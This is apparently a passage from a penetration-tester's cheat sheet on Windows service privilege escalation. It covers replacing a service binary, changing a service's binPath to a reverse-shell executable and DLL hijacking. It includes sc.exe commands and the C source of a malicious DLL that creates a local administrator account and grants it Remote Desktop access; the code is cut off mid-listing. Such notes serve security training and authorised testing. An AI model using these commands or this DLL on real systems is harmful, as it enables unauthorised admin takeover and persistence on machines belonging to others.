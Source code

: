 compile on kali
```
x86_64-w64-mingw32-gcc adduser.c -o adduser.exe
```

locate in the right path and restart the service
```
sc.exe stop <service name>
sc.exe start <service name>
```
#### change Service Binary Location

if the service is misconfigure you may can change the path that the services running from to your exe file like c:\\temp\\revershell.exe   
```
sc.exe config <service name> binPath= <binary path>
```
#### Service DLL Hijacking

when we have service that running an exe, using procmon we can see that he couldn't find his dll or find after several checks in another locations. we can leverage that and create custom DLL that it load first and run it

tools:
- check running process - won't work when using a network logon such as WinRM or a bind shell
```
Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}

# evil-winrm
services
```

- check under which user this service is running 
```
sc.exe qc <service name>
```

- check permissions on the exe
```
icacls "<exe_path>"
```

- add user as local admin script
```cpp
#include <stdlib.h>
#include <windows.h>

BOOL APIENTRY DllMain(
HANDLE hModule,// Handle to DLL module
DWORD ul_reason_for_call,// Reason for calling function
LPVOID lpReserved ) // Reserved
{
    switch ( ul_reason_for_call )
    {
        case DLL_PROCESS_ATTACH: // A process is loading the DLL.
        int i;
  	    i = system ("net user dave2 password123! /add");
  	    i = system ("net localgroup administrators dave2 /add");
  	    i = system("powershell -Command \"Add-LocalGroupMember -Group 'Remote Desktop Users' -Member 'dave2'\"");
        break;
        case DLL_THREAD_ATTACH: // A process is creating a new thread.
        break;
        case DLL_THREAD_DETACH: // A thread exits normally.
        break;
        case DLL_PROCESS_DETACH: // A process unloads the DLL.
        break;
```